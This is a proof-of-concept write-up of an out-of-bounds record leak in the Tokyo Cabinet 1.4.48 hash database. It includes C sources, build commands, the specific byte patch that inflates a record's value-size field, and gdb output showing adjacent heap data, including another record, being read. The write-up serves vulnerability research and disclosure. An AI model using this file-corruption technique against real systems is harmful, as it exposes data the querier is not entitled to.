


# Record Leaking

So this will cover a brief POC for how record leaking works. This POC will demonstrate how by using the input database file as an attack surface, we can query one record, but actually leak.

This was done on tokyocabinet version `1.4.48`, which according to the website (https://fallabs.com/tokyocabinet/), is the latest version at this time (03/12/2022).

## POC File Prep

So this just covers how I got the files for this POC. Starting off, we have two different source code files, one to generate the database file, and another to actually query it. Both of these are based off of the tokyocabinet example files.

Here is the source code file for generating the database file (`cat database_file_creation.c`):

```
#include <tcutil.h>
#include <tchdb.h>
#include <stdlib.h>
#include <stdbool.h>
#include <stdint.h>

int main(int argc, char **argv){
  TCHDB *hdb;
  int ecode;

  /* create the object */
  hdb = tchdbnew();

  /* open the database */
  if(!tchdbopen(hdb, "fighters.z", HDBOWRITER | HDBOCREAT)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "open error: %s\n", tchdberrmsg(ecode));
  }

  /* store records */
  if(!tchdbput2(hdb, "gohan", "kamehameha") ||
     !tchdbput2(hdb, "picolo", "finger_thing") ||
     !tchdbput2(hdb, "vegeta", "final_flash")){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "put error: %s\n", tchdberrmsg(ecode));
  }

  /* close the database */
  if(!tchdbclose(hdb)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "close error: %s\n", tchdberrmsg(ecode));
  }

  /* delete the object */
  tchdbdel(hdb);

  return 0;
}
```

Here is the soruce code file for actually querying the database (`database_querying.c`):

```
#include <tcutil.h>
#include <tchdb.h>
#include <stdlib.h>
#include <stdbool.h>
#include <stdint.h>

int main(int argc, char **argv){
  TCHDB *hdb;
  int ecode;
  char *value;


  /* create the object */
  hdb = tchdbnew();

  /* open the database */
  if(!tchdbopen(hdb, "leak-fighters.z", HDBOWRITER | HDBOCREAT)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "open error: %s\n", tchdberrmsg(ecode));
  }

  /* retrieve records */
  value = tchdbget2(hdb, "gohan");
  if(value){
    int i = 0;
    printf("%s\n", value);
  }

  /* close the database */
  if(!tchdbclose(hdb)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "close error: %s\n", tchdberrmsg(ecode));
  }

  /* delete the object */
  tchdbdel(hdb);

  return 0;
}
```

To compile these two files:

```
$	gcc -c -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 database_file_creation.c
$	LD_RUN_PATH=/lib:/usr/lib:/home/guyinatuxedo/lib:/usr/local/lib:.:.. gcc -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 -o database_file_creation database_file_creation.o  -L. -L.. -ltokyocabinet -lz -lbz2 -lpthread -lm -lc
$	gcc -c -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 database_querying.c
$	LD_RUN_PATH=/lib:/usr/lib:/home/guyinatuxedo/lib:/usr/local/lib:.:.. gcc -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 -o database_querying database_querying.o  -L. -L.. -ltokyocabinet -lz -lbz2 -lpthread -lm -lc
```

## POC Walkthrough

So starting off, we will create the database, using the `database_file_creation` binary:

```
$	ls | grep fighters.z
$	./database_file_creation
$	ls | grep fighters.z 
fighters.z
```

Now looking at the `fighters.z` file, we see this (picture `database_records_plain.png`):



Now we see here, there are three sepearte records, the first beginning at offset `0x81140`. Now our goal here will be to edit this file so that when we query the `gohan` record, it will also output the contents of the `picolo` record. Before we go about leaking the records, let's first take a look at what the normal operation looks like. Now this database implementation is an API, and we can call`tchdbget2` to query a record, which returns a pointer to the body of a record. Let's see this in action.

First copy the `fighters.z` record to the `leak-fighters.z` file, and run `database_querying`:

```
$	cp fighters.z leak-fighters.z
$	./database_querying 
kamehameha
```

Now `database_querying` is printing the data as a string, but let's actually take a look at the memory we are getting from the API call:

```
$	gdb ./database_querying 
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
dGEF for linux ready, type `gef' to start, `gef config' to configure
93 commands loaded for GDB 9.2 using Python engine 3.8
[*] 3 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./database_querying...
(No debugging symbols found in ./database_querying)
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000001160 <+0>:	endbr64 
   0x0000000000001164 <+4>:	push   rbp
   0x0000000000001165 <+5>:	call   0x1110 <tchdbnew@plt>
   0x000000000000116a <+10>:	mov    edx,0x6
   0x000000000000116f <+15>:	lea    rsi,[rip+0xe8e]        # 0x2004
   0x0000000000001176 <+22>:	mov    rdi,rax
   0x0000000000001179 <+25>:	mov    rbp,rax
   0x000000000000117c <+28>:	call   0x10d0 <tchdbopen@plt>
   0x0000000000001181 <+33>:	test   al,al
   0x0000000000001183 <+35>:	je     0x11c7 <main+103>
   0x0000000000001185 <+37>:	lea    rsi,[rip+0xe98]        # 0x2024
   0x000000000000118c <+44>:	mov    rdi,rbp
   0x000000000000118f <+47>:	call   0x1100 <tchdbget2@plt>
   0x0000000000001194 <+52>:	mov    rdx,rax
   0x0000000000001197 <+55>:	test   rax,rax
   0x000000000000119a <+58>:	je     0x11af <main+79>
   0x000000000000119c <+60>:	lea    rsi,[rip+0xe94]        # 0x2037
   0x00000000000011a3 <+67>:	mov    edi,0x1
   0x00000000000011a8 <+72>:	xor    eax,eax
   0x00000000000011aa <+74>:	call   0x1120 <__printf_chk@plt>
   0x00000000000011af <+79>:	mov    rdi,rbp
   0x00000000000011b2 <+82>:	call   0x10f0 <tchdbclose@plt>
   0x00000000000011b7 <+87>:	test   al,al
   0x00000000000011b9 <+89>:	je     0x11f5 <main+149>
   0x00000000000011bb <+91>:	mov    rdi,rbp
   0x00000000000011be <+94>:	call   0x10e0 <tchdbdel@plt>
   0x00000000000011c3 <+99>:	xor    eax,eax
   0x00000000000011c5 <+101>:	pop    rbp
   0x00000000000011c6 <+102>:	ret    
   0x00000000000011c7 <+103>:	mov    rdi,rbp
   0x00000000000011ca <+106>:	call   0x1140 <tchdbecode@plt>
   0x00000000000011cf <+111>:	mov    edi,eax
   0x00000000000011d1 <+113>:	call   0x1130 <tchdberrmsg@plt>
   0x00000000000011d6 <+118>:	mov    rdi,QWORD PTR [rip+0x2e43]        # 0x4020 <stderr@@GLIBC_2.2.5>
   0x00000000000011dd <+125>:	mov    esi,0x1
   0x00000000000011e2 <+130>:	lea    rdx,[rip+0xe2b]        # 0x2014
   0x00000000000011e9 <+137>:	mov    rcx,rax
   0x00000000000011ec <+140>:	xor    eax,eax
   0x00000000000011ee <+142>:	call   0x1150 <__fprintf_chk@plt>
   0x00000000000011f3 <+147>:	jmp    0x1185 <main+37>
   0x00000000000011f5 <+149>:	mov    rdi,rbp
   0x00000000000011f8 <+152>:	call   0x1140 <tchdbecode@plt>
   0x00000000000011fd <+157>:	mov    edi,eax
   0x00000000000011ff <+159>:	call   0x1130 <tchdberrmsg@plt>
   0x0000000000001204 <+164>:	mov    rdi,QWORD PTR [rip+0x2e15]        # 0x4020 <stderr@@GLIBC_2.2.5>
   0x000000000000120b <+171>:	mov    esi,0x1
   0x0000000000001210 <+176>:	lea    rdx,[rip+0xe13]        # 0x202a
   0x0000000000001217 <+183>:	mov    rcx,rax
   0x000000000000121a <+186>:	xor    eax,eax
   0x000000000000121c <+188>:	call   0x1150 <__fprintf_chk@plt>
   0x0000000000001221 <+193>:	jmp    0x11bb <main+91>
End of assembler dump.
gef➤  b *main+52
Breakpoint 1 at 0x1194
gef➤  r
Starting program: /Hackery/beyond_oblivion/tokyo-cabinet/pocs/record_leaking/database_querying 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x0000555555555194 in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00005555555616f0  →  "kamehameha"
$rbx   : 0x0000555555555320  →  <__libc_csu_init+0> endbr64 
$rcx   : 0x6168656d6168656d ("mehameha"?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffdf90  →  0x0000000000000000
$rbp   : 0x00005555555592a0  →  0x0000000000000000
$rsi   : 0x656d6168656d616b ("kamehame"?)
$rdi   : 0x00005555555616f0  →  "kamehameha"
$rip   : 0x0000555555555194  →  <main+52> mov rdx, rax
$r8    : 0x00005555555616f0  →  "kamehameha"
$r9    : 0x0               
$r10   : 0x00007ffff7f45f97  →  0x7400706d636d656d ("memcmp"?)
$r11   : 0x00007ffff7f23be0  →  0x0000555555561700  →  0x0000000000000000
$r12   : 0x0000555555555230  →  <_start+0> endbr64 
$r13   : 0x00007fffffffe080  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdf90│+0x0000: 0x0000000000000000	 ← $rsp
0x00007fffffffdf98│+0x0008: 0x00007ffff7d5b0b3  →  <__libc_start_main+243> mov edi, eax
0x00007fffffffdfa0│+0x0010: 0x0000000000000000
0x00007fffffffdfa8│+0x0018: 0x00007fffffffe088  →  0x00007fffffffe386  →  "/Hackery/beyond_oblivion/tokyo-cabinet/pocs/record[...]"
0x00007fffffffdfb0│+0x0020: 0x00000001f7f1f7a0
0x00007fffffffdfb8│+0x0028: 0x0000555555555160  →  <main+0> endbr64 
0x00007fffffffdfc0│+0x0030: 0x0000555555555320  →  <__libc_csu_init+0> endbr64 
0x00007fffffffdfc8│+0x0038: 0x002cdfa58e59d659
──────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555555185 <main+37>        lea    rsi, [rip+0xe98]        # 0x555555556024
   0x55555555518c <main+44>        mov    rdi, rbp
   0x55555555518f <main+47>        call   0x555555555100 <tchdbget2@plt>
 → 0x555555555194 <main+52>        mov    rdx, rax
   0x555555555197 <main+55>        test   rax, rax
   0x55555555519a <main+58>        je     0x5555555551af <main+79>
   0x55555555519c <main+60>        lea    rsi, [rip+0xe94]        # 0x555555556037
   0x5555555551a3 <main+67>        mov    edi, 0x1
   0x5555555551a8 <main+72>        xor    eax, eax
──────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "database_queryi", stopped 0x555555555194 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555194 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/40g $rax
0x5555555616f0:	0x656d6168656d616b	0x6168
0x555555561700:	0x0	0x18901
0x555555561710:	0x0	0x0
0x555555561720:	0x0	0x0
0x555555561730:	0x0	0x0
0x555555561740:	0x0	0x0
0x555555561750:	0x0	0x0
0x555555561760:	0x0	0x0
0x555555561770:	0x0	0x0
0x555555561780:	0x0	0x0
0x555555561790:	0x0	0x0
0x5555555617a0:	0x0	0x0
0x5555555617b0:	0x0	0x0
0x5555555617c0:	0x0	0x0
0x5555555617d0:	0x0	0x0
0x5555555617e0:	0x0	0x0
0x5555555617f0:	0x0	0x0
0x555555561800:	0x0	0x0
0x555555561810:	0x0	0x0
0x555555561820:	0x0	0x0
gef➤  vmmap 0x5555555616f0
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000555555559000 0x000055555557a000 0x0000000000000000 rw- [heap]
gef➤  x/s $rax
0x5555555616f0:	"kamehameha"
```

Now here, we see that the actual ptr returned is a heap ptr, to the string `kamehameha`, the record body we were querying for. Now when we leak the records, we'll be able to see the leaked data here, past the `kamehameha`.

Now for the actual record corruption. For this, I will simply expand the size of the value for the gohan record. For this, I will edit the `gohan` record (of the `leak-fighters.z` file) to be this series of bytes:

```
C8 AE 00 00 00 00 00 00 00 00 03 00 05 2A 67 6F 68 61 6E 6B 61 6D 65 68 61 6D 65 68 61 00 00 00
```

Basically, we just replaced the size of the value (at offset `0x8114d`) from `0x0A` to be `0x2A`.

Which looks like this (database_records_leak.png):



If you don't feel like doing it, I have a spare copy you can just use in this POC:
```
$	cp backup-leak-fighters.z leak-fighters.z
```

And with that, when we query the record again, we see this:

```
gdb ./database_querying 
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
93 commands loaded for GDB 9.2 using Python engine 3.8
[*] 3 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./database_querying...
(No debugging symbols found in ./database_querying)
gef➤  b *main+52
Breakpoint 1 at 0x1194
gef➤  r
Starting program: /Hackery/beyond_oblivion/tokyo-cabinet/pocs/record_leaking/database_querying 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x0000555555555194 in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0000555555561710  →  "kamehameha"
$rbx   : 0x0000555555555320  →  <__libc_csu_init+0> endbr64 
$rcx   : 0x00007fffffffdf64  →  0x0361a8000000002a ("*"?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffdf90  →  0x0000000000000000
$rbp   : 0x00005555555592a0  →  0x0000000000000000
$rsi   : 0x0000555555561715  →  0x0000006168656d61 ("ameha"?)
$rdi   : 0x0000555555561710  →  "kamehameha"
$rip   : 0x0000555555555194  →  <main+52> mov rdx, rax
$r8    : 0x0000555555561710  →  "kamehameha"
$r9    : 0x0               
$r10   : 0x00007ffff7f45f48  →  0x0065766f6d6d656d ("memmove"?)
$r11   : 0x00007ffff7ec2580  →  <__memmove_avx_unaligned+0> endbr64 
$r12   : 0x0000555555555230  →  <_start+0> endbr64 
$r13   : 0x00007fffffffe080  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdf90│+0x0000: 0x0000000000000000	 ← $rsp
0x00007fffffffdf98│+0x0008: 0x00007ffff7d5b0b3  →  <__libc_start_main+243> mov edi, eax
0x00007fffffffdfa0│+0x0010: 0x0000000000000000
0x00007fffffffdfa8│+0x0018: 0x00007fffffffe088  →  0x00007fffffffe386  →  "/Hackery/beyond_oblivion/tokyo-cabinet/pocs/record[...]"
0x00007fffffffdfb0│+0x0020: 0x00000001f7f1f7a0
0x00007fffffffdfb8│+0x0028: 0x0000555555555160  →  <main+0> endbr64 
0x00007fffffffdfc0│+0x0030: 0x0000555555555320  →  <__libc_csu_init+0> endbr64 
0x00007fffffffdfc8│+0x0038: 0xa717ddba8c585b1d
──────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555555185 <main+37>        lea    rsi, [rip+0xe98]        # 0x555555556024
   0x55555555518c <main+44>        mov    rdi, rbp
   0x55555555518f <main+47>        call   0x555555555100 <tchdbget2@plt>
 → 0x555555555194 <main+52>        mov    rdx, rax
   0x555555555197 <main+55>        test   rax, rax
   0x55555555519a <main+58>        je     0x5555555551af <main+79>
   0x55555555519c <main+60>        lea    rsi, [rip+0xe94]        # 0x555555556037
   0x5555555551a3 <main+67>        mov    edi, 0x1
   0x5555555551a8 <main+72>        xor    eax, eax
──────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "database_queryi", stopped 0x555555555194 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555194 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/40g $rax-0x10
0x555555561700:	0x0	0x41
0x555555561710:	0x656d6168656d616b	0xa7c80000006168
0x555555561720:	0x0	0x6c6f6369700c0600
0x555555561730:	0x5f7265676e69666f	0x68745f72006874
0x555555561740:	0x0	0x188c1
0x555555561750:	0x0	0x0
0x555555561760:	0x0	0x0
0x555555561770:	0x0	0x0
0x555555561780:	0x0	0x0
0x555555561790:	0x0	0x0
0x5555555617a0:	0x0	0x0
0x5555555617b0:	0x0	0x0
0x5555555617c0:	0x0	0x0
0x5555555617d0:	0x0	0x0
0x5555555617e0:	0x0	0x0
0x5555555617f0:	0x0	0x0
0x555555561800:	0x0	0x0
0x555555561810:	0x0	0x0
0x555555561820:	0x0	0x0
0x555555561830:	0x0	0x0
gef➤  x/s 0x555555561710
0x555555561710:	"kamehameha"gef➤  x/s 0x55555556172b
0x55555556172b:	"picolofinger_th"
```

And just like that, we were able to query one record, but leak subsequent data. This attack revolved around simply editing the database file, and expanding the size of the value for a record, so when we queried that record, we it return data past the end of the record, and we would leak data:
